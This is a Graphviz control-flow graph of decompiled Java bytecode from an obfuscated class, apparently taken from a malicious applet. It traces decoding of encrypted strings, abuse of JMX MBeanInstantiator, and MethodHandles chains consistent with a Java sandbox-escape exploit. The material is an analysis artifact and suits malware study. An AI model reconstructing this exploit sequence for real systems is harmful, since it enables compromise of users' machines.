 digraph "" {
    "r0 := @this: vqd"
    "load.r r0"
    "r0 := @this: vqd"->"load.r r0";
    "push \"-T8W?K=[\'\""
    "load.r r0"->"push \"-T8W?K=[\'\"";
    "staticinvoke <zin: java.lang.String d(java.lang.String)>"
    "push \"-T8W?K=[\'\""->"staticinvoke <zin: java.lang.String d(java.lang.String)>";
    "push \"&R.O\\\"I.O6TiXg_&\""
    "staticinvoke <zin: java.lang.String d(java.lang.String)>"->"push \"&R.O\\\"I.O6TiXg_&\"";
    "push \"&R.O\\\"I.O6TiXg_&\""->"staticinvoke <zin: java.lang.String d(java.lang.String)>";
    "store.r r8"
    "staticinvoke <zin: java.lang.String d(java.lang.String)>"->"store.r r8";
    "virtualinvoke <vqd: java.lang.String getParameter(java.lang.String)>"
    "store.r r8"->"virtualinvoke <vqd: java.lang.String getParameter(java.lang.String)>";
    "store.r r9"
    "virtualinvoke <vqd: java.lang.String getParameter(java.lang.String)>"->"store.r r9";
    "load.r r8"
    "store.r r9"->"load.r r8";
    "load.r r9"
    "load.r r8"->"load.r r9";
    "staticinvoke <vqd: java.lang.String L(java.lang.String,java.lang.String)>"
    "load.r r9"->"staticinvoke <vqd: java.lang.String L(java.lang.String,java.lang.String)>";
    "push \"\u0002\""
    "staticinvoke <vqd: java.lang.String L(java.lang.String,java.lang.String)>"->"push \"\u0002\"";
    "push \"\u0002\""->"staticinvoke <zin: java.lang.String d(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>"
    "staticinvoke <zin: java.lang.String d(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>"->"load.r r0";
    "staticget <vqd: java.lang.String B>"
    "load.r r0"->"staticget <vqd: java.lang.String B>";
    "virtualinvoke <vqd: byte[] L(java.lang.String)>"
    "staticget <vqd: java.lang.String B>"->"virtualinvoke <vqd: byte[] L(java.lang.String)>";
    "store.r r0"
    "virtualinvoke <vqd: byte[] L(java.lang.String)>"->"store.r r0";
    "new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder"
    "store.r r0"->"new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder";
    "dup1.r"
    "new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder"->"dup1.r";
    "specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>";
    "push \"\""
    "specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>"->"push \"\"";
    "push null"
    "push \"\""->"push null";
    "push null"->"push null";
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>"
    "push null"->"virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>";
    "checkcast"
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>"->"checkcast";
    "staticinvoke <vqd: com.sun.jmx.mbeanserver.MBeanInstantiator L(com.sun.jmx.mbeanserver.JmxMBeanServer)>"
    "checkcast"->"staticinvoke <vqd: com.sun.jmx.mbeanserver.MBeanInstantiator L(com.sun.jmx.mbeanserver.JmxMBeanServer)>";
    "staticinvoke <vqd: com.sun.jmx.mbeanserver.MBeanInstantiator L(com.sun.jmx.mbeanserver.JmxMBeanServer)>"->"dup1.r";
    "push \"3J%E(B/I%[:T7_3d*G+A,F\'V8Y8S0J&i\'@,F+[:T7_3d*G+A,K(T8Y6]\u001fD$E(B/I%[4Z\u0018Q1H%E(@,i\'Z6Y4^1H\nI)B/E(T8Y6]\u001fx\u001b\""
    "dup1.r"->"push \"3J%E(B/I%[:T7_3d*G+A,F\'V8Y8S0J&i\'@,F+[:T7_3d*G+A,K(T8Y6]\u001fD$E(B/I%[4Z\u0018Q1H%E(@,i\'Z6Y4^1H\nI)B/E(T8Y6]\u001fx\u001b\"";
    "push \"3J%E(B/I%[:T7_3d*G+A,F\'V8Y8S0J&i\'@,F+[:T7_3d*G+A,K(T8Y6]\u001fD$E(B/I%[4Z\u0018Q1H%E(@,i\'Z6Y4^1H\nI)B/E(T8Y6]\u001fx\u001b\""->"staticinvoke <zin: java.lang.String d(java.lang.String)>";
    "pop"
    "staticinvoke <zin: java.lang.String d(java.lang.String)>"->"pop";
    "pop"->"push null";
    "staticinvoke <zin: java.lang.Class L(com.sun.jmx.mbeanserver.MBeanInstantiator,java.lang.ClassLoader)>"
    "push null"->"staticinvoke <zin: java.lang.Class L(com.sun.jmx.mbeanserver.MBeanInstantiator,java.lang.ClassLoader)>";
    "store.r r7"
    "staticinvoke <zin: java.lang.Class L(com.sun.jmx.mbeanserver.MBeanInstantiator,java.lang.ClassLoader)>"->"store.r r7";
    "store.r r7"->"push null";
    "staticinvoke <zin: java.lang.Class E(com.sun.jmx.mbeanserver.MBeanInstantiator,java.lang.ClassLoader)>"
    "push null"->"staticinvoke <zin: java.lang.Class E(com.sun.jmx.mbeanserver.MBeanInstantiator,java.lang.ClassLoader)>";
    "staticinvoke <zin: java.lang.Class E(com.sun.jmx.mbeanserver.MBeanInstantiator,java.lang.ClassLoader)>"->"store.r r8";
    "store.r r8"->"load.r r8";
    "staticinvoke <zin: java.lang.invoke.MethodHandles$Lookup L()>"
    "load.r r8"->"staticinvoke <zin: java.lang.invoke.MethodHandles$Lookup L()>";
    "staticinvoke <zin: java.lang.invoke.MethodHandles$Lookup L()>"->"store.r r9";
    "store.r r9"->"load.r r9";
    "push class \"Ljava/lang/invoke/MethodHandle;\""
    "load.r r9"->"push class \"Ljava/lang/invoke/MethodHandle;\"";
    "push class \"Ljava/lang/Class;\""
    "push class \"Ljava/lang/invoke/MethodHandle;\""->"push class \"Ljava/lang/Class;\"";
    "push 1"
    "push class \"Ljava/lang/Class;\""->"push 1";
    "newarray"
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "push 0"
    "dup1.r"->"push 0";
    "push class \"Ljava/lang/invoke/MethodType;\""
    "push 0"->"push class \"Ljava/lang/invoke/MethodType;\"";
    "arraywrite.r"
    "push class \"Ljava/lang/invoke/MethodType;\""->"arraywrite.r";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"
    "arraywrite.r"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "push \"&G(B/E(T8Y4S0D(F)B/E%[:T7_3K&K(N\\\"F)X5Z:^?F%G+A,K(T8Y6]0H(F\'L/G+[:T7_3d*G+A,F\'V8Y8S0J&i\'@,F+[:T7_3d*G+A,K(T8Y6]\u001fD$E(B/I%[4Z\u0018Q1H%E(@,i\'Z6Y4^1H\nI)B/E(T8Y6]\u001fx\u001b\""
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"push \"&G(B/E(T8Y4S0D(F)B/E%[:T7_3K&K(N\\\"F)X5Z:^?F%G+A,K(T8Y6]0H(F\'L/G+[:T7_3d*G+A,F\'V8Y8S0J&i\'@,F+[:T7_3d*G+A,K(T8Y6]\u001fD$E(B/I%[4Z\u0018Q1H%E(@,i\'Z6Y4^1H\nI)B/E(T8Y6]\u001fx\u001b\"";
    "push \"&G(B/E(T8Y4S0D(F)B/E%[:T7_3K&K(N\\\"F)X5Z:^?F%G+A,K(T8Y6]0H(F\'L/G+[:T7_3d*G+A,F\'V8Y8S0J&i\'@,F+[:T7_3d*G+A,K(T8Y6]\u001fD$E(B/I%[4Z\u0018Q1H%E(@,i\'Z6Y4^1H\nI)B/E(T8Y6]\u001fx\u001b\""->"staticinvoke <zin: java.lang.String d(java.lang.String)>";
    "staticinvoke <zin: java.lang.String d(java.lang.String)>"->"pop";
    "staticinvoke <flo: java.lang.invoke.MethodHandle E(java.lang.invoke.MethodHandles$Lookup,java.lang.invoke.MethodType)>"
    "pop"->"staticinvoke <flo: java.lang.invoke.MethodHandle E(java.lang.invoke.MethodHandles$Lookup,java.lang.invoke.MethodType)>";
    "staticget <java.lang.Void: java.lang.Class TYPE>"
    "staticinvoke <flo: java.lang.invoke.MethodHandle E(java.lang.invoke.MethodHandles$Lookup,java.lang.invoke.MethodType)>"->"staticget <java.lang.Void: java.lang.Class TYPE>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>"
    "staticget <java.lang.Void: java.lang.Class TYPE>"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>";
    "store.r r12"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>"->"store.r r12";
    "push 3"
    "store.r r12"->"push 3";
    "push 3"->"newarray";
    "store.r r14"
    "newarray"->"store.r r14";
    "load.r r14"
    "store.r r14"->"load.r r14";
    "load.r r14"->"push 0";
    "push 0"->"load.r r9";
    "load.r r9"->"arraywrite.r";
    "arraywrite.r"->"load.r r14";
    "load.r r14"->"push 1";
    "load.r r7"
    "push 1"->"load.r r7";
    "load.r r7"->"arraywrite.r";
    "arraywrite.r"->"load.r r14";
    "push 2"
    "load.r r14"->"push 2";
    "load.r r12"
    "push 2"->"load.r r12";
    "load.r r12"->"arraywrite.r";
    "arraywrite.r"->"load.r r14";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"
    "load.r r14"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 0";
    "push 0"->"newarray";
    "newarray"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"store.r r14";
    "store.r r14"->"load.r r9";
    "staticinvoke <flo: java.lang.invoke.MethodType E()>"
    "load.r r9"->"staticinvoke <flo: java.lang.invoke.MethodType E()>";
    "staticinvoke <flo: java.lang.invoke.MethodHandle L(java.lang.invoke.MethodHandles$Lookup,java.lang.invoke.MethodType)>"
    "staticinvoke <flo: java.lang.invoke.MethodType E()>"->"staticinvoke <flo: java.lang.invoke.MethodHandle L(java.lang.invoke.MethodHandles$Lookup,java.lang.invoke.MethodType)>";
    "staticinvoke <flo: java.lang.invoke.MethodHandle L(java.lang.invoke.MethodHandles$Lookup,java.lang.invoke.MethodType)>"->"store.r r12";
    "staticinvoke <flo: java.lang.invoke.MethodType L(java.lang.Class)>"
    "store.r r12"->"staticinvoke <flo: java.lang.invoke.MethodType L(java.lang.Class)>";
    "store.r r17"
    "staticinvoke <flo: java.lang.invoke.MethodType L(java.lang.Class)>"->"store.r r17";
    "push 4"
    "store.r r17"->"push 4";
    "push 4"->"newarray";
    "store.r $r34"
    "newarray"->"store.r $r34";
    "load.r $r34"
    "store.r $r34"->"load.r $r34";
    "load.r $r34"->"push 0";
    "push 0"->"load.r r9";
    "load.r r9"->"arraywrite.r";
    "arraywrite.r"->"load.r $r34";
    "load.r $r34"->"push 1";
    "push 1"->"load.r r7";
    "load.r r7"->"arraywrite.r";
    "arraywrite.r"->"load.r $r34";
    "load.r $r34"->"push 2";
    "push \"4^\'@;C\u000bM.O!r?X3I0\""
    "push 2"->"push \"4^\'@;C\u000bM.O!r?X3I0\"";
    "push \"4^\'@;C\u000bM.O!r?X3I0\""->"staticinvoke <zin: java.lang.String d(java.lang.String)>";
    "staticinvoke <zin: java.lang.String d(java.lang.String)>"->"arraywrite.r";
    "arraywrite.r"->"load.r $r34";
    "load.r $r34"->"push 3";
    "load.r r17"
    "push 3"->"load.r r17";
    "load.r r17"->"arraywrite.r";
    "arraywrite.r"->"load.r r12";
    "load.r r12"->"load.r $r34";
    "load.r $r34"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 2";
    "push 2"->"newarray";
    "newarray"->"store.r r7";
    "store.r r7"->"load.r r7";
    "load.r r7"->"push 0";
    "push 0"->"load.r r14";
    "load.r r14"->"arraywrite.r";
    "arraywrite.r"->"load.r r7";
    "load.r r7"->"push 1";
    "push 1"->"push null";
    "push null"->"arraywrite.r";
    "arraywrite.r"->"load.r r7";
    "load.r r7"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"store.r r7";
    "staticinvoke <flo: java.lang.invoke.MethodType L()>"
    "store.r r7"->"staticinvoke <flo: java.lang.invoke.MethodType L()>";
    "staticinvoke <flo: java.lang.invoke.MethodType L()>"->"store.r r14";
    "store.r r14"->"push 4";
    "push 4"->"newarray";
    "newarray"->"store.r r17";
    "store.r r17"->"load.r r17";
    "load.r r17"->"push 0";
    "push 0"->"load.r r9";
    "load.r r9"->"arraywrite.r";
    "arraywrite.r"->"load.r r17";
    "load.r r17"->"push 1";
    "push 1"->"load.r r8";
    "load.r r8"->"arraywrite.r";
    "arraywrite.r"->"load.r r17";
    "load.r r17"->"push 2";
    "push \",D)U<[\u0013U6_1\""
    "push 2"->"push \",D)U<[\u0013U6_1\"";
    "push \",D)U<[\u0013U6_1\""->"staticinvoke <zin: java.lang.String d(java.lang.String)>";
    "staticinvoke <zin: java.lang.String d(java.lang.String)>"->"arraywrite.r";
    "arraywrite.r"->"load.r r17";
    "load.r r17"->"push 3";
    "push 3"->"load.r r14";
    "load.r r14"->"arraywrite.r";
    "arraywrite.r"->"load.r r12";
    "load.r r12"->"load.r r17";
    "load.r r17"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 3";
    "push 3"->"newarray";
    "newarray"->"store.r r8";
    "store.r r8"->"load.r r8";
    "load.r r8"->"push 0";
    "push 0"->"load.r r7";
    "load.r r7"->"arraywrite.r";
    "arraywrite.r"->"load.r r8";
    "load.r r8"->"push 1";
    "push 1"->"push null";
    "push null"->"arraywrite.r";
    "arraywrite.r"->"load.r r8";
    "load.r r8"->"push 2";
    "push 2"->"load.r r0";
    "load.r r0"->"arraywrite.r";
    "arraywrite.r"->"load.r r8";
    "load.r r8"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "staticinvoke <flo: java.lang.String E(java.lang.Class)>"
    "checkcast"->"staticinvoke <flo: java.lang.String E(java.lang.Class)>";
    "staticinvoke <flo: java.lang.String E(java.lang.Class)>"->"pop";
    "staticinvoke <zin: void L(java.lang.String[])>"
    "pop"->"staticinvoke <zin: void L(java.lang.String[])>";
    "goto return"
    "staticinvoke <zin: void L(java.lang.String[])>"->"goto return";
    "return"
    "goto return"->"return";
    "staticinvoke <zin: void L(java.lang.String[])>"->"store.r r0";
}
